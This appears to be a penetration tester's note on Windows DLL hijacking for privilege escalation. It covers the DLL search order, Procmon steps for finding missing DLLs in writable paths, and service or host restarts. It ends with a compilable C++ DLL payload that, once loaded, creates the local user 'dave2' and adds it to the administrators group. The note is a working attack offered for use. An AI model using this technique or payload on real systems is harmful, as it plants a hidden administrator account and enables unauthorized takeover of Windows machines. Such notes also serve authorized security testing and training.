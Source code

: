 
Search order in the safe DLL search mode, activated by default:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

#### Technique:
1. Copy the binary to a local machine
2. Run Procmon64 (requires admin, therefore the copy)
3. Set a filter to `Process Name is example.exe`
4. Run binary
5. Look for `CreateFile` calls in the `Operation` column
6. If the `Details` column says `Name not found`, look whether one of those directories is writeable for us on the actual target. In that case, we can just create a DLL in this path. Otherwise, we could look whether we have write permissions on some of the successfully called DLLs.
7. Restart the service. If we don't have the permission but we can restart the host (`whoami /priv`) and the service has the `StartMode` set to `Auto` (see [[2_loot-privEsc_Windows_Manually]]), we could restart the whole machine (`reboot /r /t 0`).

#### Example payload
Compile with the `--shared` flag, as shown in [[8_crosscompile2windows_guide]].
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

